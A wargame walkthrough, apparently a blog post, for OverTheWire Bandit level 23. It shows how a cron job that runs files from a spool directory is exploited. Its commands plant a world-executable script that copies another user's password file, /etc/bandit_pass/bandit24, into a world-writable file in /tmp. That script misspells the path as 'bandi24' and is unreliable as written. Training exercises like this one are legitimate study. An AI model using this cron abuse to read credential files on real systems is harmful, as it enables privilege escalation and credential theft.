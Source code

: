 ```yaml
---
layout: post
title: Bandit 23
date: 2023-11-24 09:04 -0600
---
```



```bash
cd /etc/cron.d
```
- check for cron jobs 

```bash
cat cronjob_bandit24
```

```
null

```


```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

- The script executes and deletes all files in `/var/spool/bandit24/foo`. This is the case because it is run as `bandit24`
- The for loop goes through the files but checks `.` and `..` are skipped
- Inner if statement is execute if the owner of the file is `bandit23`
	- Exploiting this feature, we can insert a script that can cat `/etc/bandit_pass/bandit24` to a file in `/tmp`

```bash
mkdir -p /tmp/bacon
```

```bash
cd /tmp/bacon
```

```bash
touch spy.sh
```

```bash
chmod 777 spy.sh
```
- Change permissions of the shell to allow `bandit24` to run the script

```bash
vim spy.sh
```

```bash
#!/bin/bash

cat /etc/bandit_pass/bandi24 > /tmp/bacon/password
```

```bash
touch password
chmod 666 password
```
- Set permission of the password file which allows everyone to write information to the file

```bash
cp spy.sh /var/spool/bandit24/foo
```
- Copy the script to `/var/spool/bandit24` and wait for the script running automatically in a minute

```bash
cat /tmp/bacon/password
```
